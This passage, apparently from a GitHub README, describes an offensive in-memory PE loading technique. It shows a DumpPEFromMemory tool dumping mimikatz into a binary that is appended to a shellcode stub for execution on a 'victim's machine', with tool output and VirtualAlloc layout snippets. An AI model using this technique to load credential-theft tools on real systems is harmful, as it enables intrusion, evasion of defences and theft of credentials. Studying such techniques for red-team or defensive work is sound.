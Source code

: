 
Secondly, the PE file's content already exists in the loader's memory(like a byte array), but the loader allocates memory space again. The execution of DumpPEFromMemory is completed on the operator's dev machine. The operator gets a dump of the PE file when it is loaded in memory. Although some data still requires updates, allocating a memory region on the victim's machine is unnecessary.

In this way, rather than manually map a file, we only need to patch specific data regions like `Import Directory`, `Base Relocation Table Directory`, `Delayed Load Import Descriptors Directory`, etc.

The dumped main module will be saved as a binary file to append to the shellcode stub.

For instance, DumpPEFromMemory executes a classic tool mimikatz, and dumps its main module into a binary file.

```powershell
PS C:\dev\inflativeloading> .\DumpPEFromMemory.exe .\mimikatz.exe mimikatz.bin
[+] The file is an EXE file
[+] Process PID: 23052
[+] PEB Address:00000000004A5000
[+] Image Base Address:00007FF730E00000
[+] e_lfanew is 0x120
[+] Size Of The Image : 0x137000
[+] Size Of Optional Header : 0xf0
[+] Size Of text Section : 0xc5000
[+] Size of other sections of mapped .\mimikatz.exe is 0x71000

[!] Suggested memory allocations, please adjust accordingly with other memory allocation APIs and languages

// Allocate memory with RX permission for shellcode stub
LPVOID buffer = VirtualAlloc(NULL, 0x1000, 0x3000, 0x20);
// Allocate memory with RW permission for PE Header
VirtualAlloc(buffer + 0x1000, 0x1000, 0x3000, 0x04);
// Allocate memory with RX permission for text section
VirtualAlloc(buffer + 0x2000, 0xc5000, 0x3000, 0x20);
// Allocate memory with RW permission for other sections
VirtualAlloc(buffer + 0x2000 + 0xc5000, 0x71000, 0x3000, 0x20);

[+] 29 iterations are needed

[+] Data successfully written to mimikatz.bin. Total bytes read: 0x137000
```
![image](/screenshot/dumper-exe.jpg)
